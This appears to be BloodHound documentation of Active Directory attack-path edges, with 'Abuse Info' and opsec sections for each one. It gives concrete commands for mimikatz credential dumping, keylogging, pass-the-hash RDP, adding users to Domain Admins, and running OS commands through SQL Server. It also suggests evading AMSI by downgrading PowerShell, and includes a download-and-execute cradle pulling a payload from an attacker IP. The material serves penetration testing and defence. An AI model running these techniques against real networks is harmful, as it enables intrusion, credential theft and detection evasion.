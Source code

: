 Edges
=====

Edges are part of the graph construct, and are represented as links that
connect one node to another. For example, this shows the user node for
David McGuire connected to two groups, "Domain Admins" and "Domain Users",
via the "MemberOf" edge, indicating this user belongs to both of those
groups:

.. image:: ../images/davidmcguire-edges.png
   :width: 700px
   :align: center
   :alt: David McGuire is a member of two groups

The direction of the edge always indicates the direct of attack, or the
direction of escalating privileges. For example, because the David McGuire
user belongs to the Domain Users and Domain Admins group, his user has the
same privileges both of those groups have.

|

----

|

AdminTo
^^^^^^^

This edge indicates that principal is a local administrator on the target
computer. By default, administrators have several ways to perform remote
code execution on Windows systems, including via RDP, WMI, WinRM, the
Service Control Manager, and remote DCOM execution.

Further, administrators have several options for impersonating other users
logged onto the system, including plaintext password extraction, token
impersonation, and injecting into processes running as another user.

Finally, administrators can often disable host-based security controls that
would otherwise prevent the aforementioned techniques.

Abuse Info
------------

There are several ways to pivot to a Windows system. If using Cobalt
Strike's beacon, check the help info for the commands "psexec", "psexec_psh",
"wmi", and "winrm". With Empire, consider the modules for Invoke-PsExec,
Invoke-DCOM, and Invoke-SMBExec.

With Metasploit, consider the modules "exploit/windows/smb/psexec",
"exploit/windows/winrm/winrm_script_exec", and
"exploit/windows/local/ps_wmi_exec".

Additionally, there are several manual methods for remotely executing code on
the machine, including via RDP, with the service control binary and
interaction with the remote machine's service control manager, and remotely
instantiating DCOM objects. For more information about these lateral movement
techniques, see the References section below.

**Gathering credentials**

The most well-known tool for gathering credentials from a Windows system is
mimikatz. mimikatz is built into several agents and toolsets, including
Cobalt Strike's beacon, Empire, and Meterpreter. While running in a high
integrity process with SeDebugPrivilege, execute one or more of mimikatz's
credential gathering techniques (e.g.: sekurlsa::wdigest,
sekurlsa::logonpasswords, etc.), then parse or investigate the output to
find clear-text credentials for other users logged onto the system.
            
You may also gather credentials when a user types them or copies them to
their clipboard! Several keylogging capabilities exist, several agents and
toolsets have them built-in. For instance, you may use meterpreter's
"keyscan_start" command to start keylogging a user, then "keyscan_dump" to
return the captured keystrokes. Or, you may use PowerSploit's
Invoke-ClipboardMonitor to periodically gather the contents of the user's
clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but
you can't gather that user's credential. This may be caused by a host-based
security product, lsass protection, etc. In those circumstances, you may
abuse Windows' token model in several ways. First, you may inject your agent
into that user's process, which will give you a process token as that user,
which you can then use to authenticate to other systems on the network. Or,
you may steal a process token from a remote process and start a thread in
your agent's process with that user's token. For more information about
token abuses, see the References tab.

**Disabling host-based security controls**

Several host-based controls may affect your ability to execute certain
techniques, such as credential theft, process injection, command line
execution, and writing files to disk. Administrators can often disable these
host-based controls in various ways, such as stopping or otherwise disabling
a service, unloading a driver, or making registry key changes. For more
information, see the References section below.

Opsec Considerations
--------------------

There are several forensic artifacts generated by the techniques described
above. For instance, lateral movement via PsExec will generate 4697 events on
the target system. If the target organization is collecting and analyzing those
events, they may very easily detect lateral movement via PsExec. 

Additionally, an EDR product may detect your attempt to inject into lsass and
alert a SOC analyst. There are many more opsec considerations to keep in mind
when abusing administrator privileges. For more information, see the References
section below.

References
----------

https://attack.mitre.org/wiki/Lateral_Movement

**Gathering Credentials**

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

**Disabling host-based security controls**

* https://blog.netspi.com/10-evil-user-tricks-for-bypassing-anti-virus/
* https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Opsec Considerations**

* https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/

|

----

|

MemberOf
^^^^^^^^

Groups in active directory grant their members any privileges the group itself
has. If a group has rights to another principal, users/computers in the group,
as well as other groups inside the group inherit those permissions.

Abuse Info
------------

No abuse is necessary. This edge simply indicates that a principal belongs to a
security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://adsecurity.org/?tag=ad-delegation
* https://www.itprotoday.com/management-mobility/view-or-remove-active-directory-delegated-permissions

|

----

|

HasSession
^^^^^^^^^^

When a user authenticates to a computer, they often leave credentials exposed on
the system, which can be retrieved through LSASS injection, token manipulation
or theft, or injecting into a user's process.

Any user that is an administrator to the system has the capability to retrieve
the credential material from memory if it still exists.

.. note:: A session does not guarantee credential material is present, only possible.

This video explains exactly how BloodHound's session data collection method works:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/q86VgM2Tafc?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
------------

When a user has a session on the computer, you may be able to obtain credentials for
the user via credential dumping or token impersonation. You must be able to move
laterally to the computer, have administrative access on the computer, and the user
must have a non-network logon session on the computer.

Once you have established a Cobalt Strike Beacon, Empire agent, or other implant on
the target, you can use mimikatz to dump credentials of the user that has a session
on the computer. While running in a high integrity process with SeDebugPrivilege,
execute one or more of mimikatz's credential gathering techniques (e.g.:
sekurlsa::wdigest, sekurlsa::logonpasswords, etc.), then parse or investigate the
output to find clear-text credentials for other users logged onto the system.

You may also gather credentials when a user types them or copies them to their
clipboard! Several keylogging capabilities exist, several agents and toolsets have
them built-in. For instance, you may use meterpreter's "keyscan_start" command to
start keylogging a user, then "keyscan_dump" to return the captured keystrokes. Or,
you may use PowerSploit's Invoke-ClipboardMonitor to periodically gather the contents
of the user's clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but you can't
gather that user's credential. This may be caused by a host-based security product,
lsass protection, etc. In those circumstances, you may abuse Windows' token model in
several ways. First, you may inject your agent into that user's process, which will
give you a process token as that user, which you can then use to authenticate to other
systems on the network. Or, you may steal a process token from a remote process and
start a thread in your agent's process with that user's token. For more information
about token abuses, see the References section below.

User sessions can be short lived and only represent the sessions that were present at
the time of collection. A user may have ended their session by the time you move to
the computer to target them. However, users tend to use the same machines, such as the
workstations or servers they are assigned to use for their job duties, so it can be
valuable to check multiple times if a user session has started.

Opsec Considerations
--------------------

An EDR product may detect your attempt to inject into lsass and alert a SOC analyst.
There are many more opsec considerations to keep in mind when stealing credentials or
tokens. For more information, see the References section.

References
----------

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

|

----

|

HasSIDHistory
^^^^^^^

The given source principal has, in its SIDHistory
attribute, the SID for the target principal.

When a kerberos ticket is created for source principal, it will
include the SID for the target principal, and therefore grant
the source principal the same privileges and permissions as
the target principal.


Abuse Info
------------

No special actions are needed to abuse this, as the kerberos
tickets created will have all SIDs in the object's SID history
attribute added to them; however, if traversing a domain trust
boundary, ensure that SID filtering is not enforced, as SID
filtering will ignore any SIDs in the SID history portion of a
kerberos ticket.

By default, SID filtering is not enabled for all domain trust
types.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://blog.harmj0y.net/redteaming/the-trustpocalypse/
* https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/
* https://adsecurity.org/?p=1772
* https://adsecurity.org/?tag=sidhistory
* https://attack.mitre.org/techniques/T1178/
* https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/

|

----

|

ForceChangePassword
^^^^^^^^^^^^^^^^^^^

This edge indicates that the principal can reset the password of the target user without
knowing the current password of that user.

To see an example of this edge being abused, see this clip from Derbycon 2017:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2291?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by
using the built-in net.exe binary in Windows (e.g.: net user dfm.a Password123! /domain).
See the opsec considerations section for why this may be a bad idea. The second, and
highly recommended method, is by using the Set-DomainUserPassword function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the ForceChangePassword privilege. Additionally, you have much safer execution
options than you do with spawning net.exe (see the opsec info below).

To abuse this privilege with PowerView's Set-DomainUserPassword, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)

Then create a secure string object for the password you want to set on the target user:

::

  $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already
running within a process as the user with the password reset privilege

::

  Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred

Now that you know the target user's plain text password, you can either start a new agent
as that user, or use that user's credentials in conjunction with PowerView's ACL abuse
functions, or perhaps even RDP to a system the target user has access to. For more ideas
and information, see the references section below.

Opsec Considerations
--------------------

Executing this abuse with the net binary will necessarily require command line execution.
If your target organization has command line logging enabled, this is a detection
opportunity for their analysts. 

Regardless of what execution procedure you use, this action will generate a 4724 event on
the domain controller that handled the request. This event may be centrally collected and
analyzed by security analysts, especially for users that are obviously very high
privilege groups (i.e.: Domain Admin users). Also be mindful that PowerShell v5 introduced
several key security features such as script block logging and AMSI that provide security
analysts another detection opportunity. You may be able to completely evade those features
by downgrading to PowerShell v2. 

Finally, by changing a service account password, you may cause that service to stop
functioning properly. This can be bad not only from an opsec perspective, but also a client
management perspective. Be careful!

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.sixdub.net/?p=579
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4724

|

----

|

AddMembers
^^^^^^^^^^

This edge indicates the principal has the ability to add arbitrary principlas to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddMember privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddMembers right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddMembers privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

|

----

|

AddSelf
^^^^^^^^^^

This edge indicates the principal has the ability to add itself to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddSelf privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddSelf right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddSelf privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

|

----

|

CanRDP
^^^^^^

Remote Desktop access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high
privileges on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
-------------

Abuse of this privilege will depend heavily on the type of access you have. 
            
**PlainText Credentials with Interactive Access**

With plaintext credentials, the easiest way to exploit this privilege is using the built-in
Windows Remote Desktop Client (mstsc.exe). Open mstsc.exe and input the target computer name.
When prompted for credentials, input the credentials for the user with RDP rights to initiate
the remote desktop connection.

**Password Hash with Interactive Access**

With a password hash, exploitation of this privilege will require local administrator privileges
on a system, and the remote server must allow Restricted Admin Mode. 

First, inject the NTLM credential for the user you're abusing into memory using mimikatz:

::

  lsadump::pth /user:dfm /domain:testlab.local /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"

This will open a new RDP window. Input the target computer name to initiate the remote desktop
connection. If the target server does not support Restricted Admin Mode, the session will fail.

**Plaintext Credentials without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in Cobalt Strike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. If using socks, ensure that proxychains is configured properly. Initiate
the remote desktop connection with the following command:

::

  proxychains xfreerdp /u:dfm /d:testlab.local /v:<computer ip>

xfreerdp will prompt you for a password, and then initiate the remote desktop connection.

**Password Hash without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in cobaltstrike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. Additionally, the target computer must allow Restricted Admin Mode. If
using socks, ensure that proxychains is configured properly. Initiate the remote desktop connection
with the following command:

::

  proxychains xfreerdp /pth:<ntlm hash> /u:dfm /d:testlab.local /v:<computer ip>

This will initiate the remote desktop connection, and will fail if Restricted Admin Mode is not
enabled.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently logged on, one of two things will
happen. If the user you are abusing is the same user as the one logged on, you will effectively take
over their session and kick the logged on user off, resulting in a message to the user. If the users
are different, you will be prompted to kick the currently logged on user off the system and log on.
If the target computer is a server, you will be able to initiate the connection without issue
provided the user you are abusing is not currently logged in.

Remote desktop will create Logon and Logoff events with the access type RemoteInteractive.

References
----------

* https://michael-eder.net/post/2018/native_rdp_pass_the_hash/
* https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

|

----

|

CanPSRemote
^^^^^^^^^^^

PS Session access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges
on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
-------------

Abuse of this privilege will require you to have interactive access with a system on the network.
    
A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the
target computer if you are not running as that user. To do this in conjunction with New-PSSession,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then use the New-PSSession command with the credential we just created:

::

  $session = New-PSSession -ComputerName <target computer name> -Credential $Cred

This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just
created

::

  Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

::

  Disconnect-PSSession -Session $session
  Remove-PSSession -Session $session

An example of running through this Cobalt Strike for lateral movement is as follows:

::

  powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
  -ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
  Disconnect-PSSession -Session $session; Remove-PSSession -Session $session

Opsec Considerations
--------------------

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

References
----------

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7

|

----

|

ExecuteDCOM
^^^^^^^^^^^

This can allow code execution under certain conditions by instantiating a COM object on a remote
machine and invoking its methods.

Abuse Info
-----------

The PowerShell script Invoke-DCOM implements lateral movement using a variety of different COM
objects (ProgIds: MMC20.Application, ShellWindows, ShellBrowserWindow, ShellBrowserWindow, and
ExcelDDE).  LethalHTA implements lateral movement using the HTA COM object (ProgId: htafile).  

One can manually instantiate and manipulate COM objects on a remote machine using the following
PowerShell code.  If specifying a COM object by its CLSID:

:: 

  $ComputerName = <target computer name>              # Remote computer
  $clsid = "{fbae34e8-bf95-4da8-bf98-6c6e580aa348}"   # GUID of the COM object
  $Type = [Type]::GetTypeFromCLSID($clsid, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

If specifying a COM object by its ProgID:

::

  $ComputerName = <target computer name>              # Remote computer
  $ProgId = "<NAME>"                                  # GUID of the COM object
  $Type = [Type]::GetTypeFromProgID($ProgId, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

Opsec Considerations
--------------------

The artifacts generated when using DCOM vary depending on the specific COM object used.

DCOM is built on top of the TCP/IP RPC protocol (TCP ports 135 + high ephemeral ports) and may
leverage several different RPC interface UUIDs(outlined here). In order to use DCOM, one must
be authenticated.  Consequently, logon events and authentication-specific logs(Kerberos, NTLM,
etc.) will be generated when using DCOM.  

Processes may be spawned as the user authenticating to the remote system, as a user already
logged into the system, or may take advantage of an already spawned process.  

Many DCOM servers spawn under the process "svchost.exe -k DcomLaunch" and typically have a
command line containing the string " -Embedding" or are executing inside of the DLL hosting
process "DllHost.exe /Processid:{<AppId>}" (where AppId is the AppId the COM object is
registered to use).  Certain COM services are implemented as service executables; consequently,
service-related event logs may be generated.

References
----------

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
* https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
* https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/
* https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques
* https://bohops.com/2018/04/28/abusing-dcom-for-yet-another-lateral-movement-technique/
* https://attack.mitre.org/wiki/Technique/T1175

**Invoke-DCOM**

* https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
            
**LethalHTA**

* https://codewhitesec.blogspot.com/2018/07/lethalhta.html
* https://github.com/codewhitesec/LethalHTA/

|

----

|

SQLAdmin
^^^^^^^^

The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound
SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration
for MSSQL is to have the local Windows account or Active Directory domain account that is
configured to run the SQL Server service (the primary database engine for SQL Server) have
sysadmin privileges in the SQL Server application. As a result, the SQL Server service account
can be used to log into the SQL Server instance remotely, read all of the databases (including
those protected with transparent encryption), and run operating systems command through SQL
Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances
and the associated service account can be identified by executing a LDAP query for a list of
"MSSQLSvc" Service Principal Names (SPN) as a domain user. In short, when the Database Engine
service starts, it attempts to register the SPN, and the SPN is then used to help facilitate
Kerberos authentication.

Author: Scott Sutherland

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=2141?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
-----------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL
Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before
executing any of the below commands, download PowerUpSQL and load it into your PowerShell
instance. Get PowerUpSQL here: https://github.com/NetSPI/PowerUpSQL

**Finding Data**

Get a list of databases, sizes, and encryption status:

::

  Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\instance –Threads 10 -NoDefaults

Search columns and data for keywords:

::

  Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize

**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system
commands on remote systems through SQL Server using different techniques.  The level of
access on the operating system will depend largely what privileges are provided to the
service account.  However, when domain accounts are configured to run SQL Server services,
it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:

::

  Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance

Agent Job Execution Examples:

::


  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\windows\temp\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

Python Subsystem Execution:

::

  Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance

R subsystem Execution Example:

::

  Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance

OLE Execution Example:

::

  Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance

CLR Execution Example:

::

  Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance

Custom Extended Procedure Execution Example:

1. Create a custom extended stored procedure:

::

  Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

2. Host the test.dll on a share readable by the SQL Server service account:

::

  Get-SQLQuery -Verbose -Query "sp_addextendedproc 'xp_test', '\\yourserver\yourshare\myxp.dll'" -Instance sqlserver\instance

3. Run extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance

4. Remove extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "sp_dropextendedproc 'xp_test'" -Instance sqlserver\instance

Author: Scott Sutherland

Opsec Considerations
--------------------

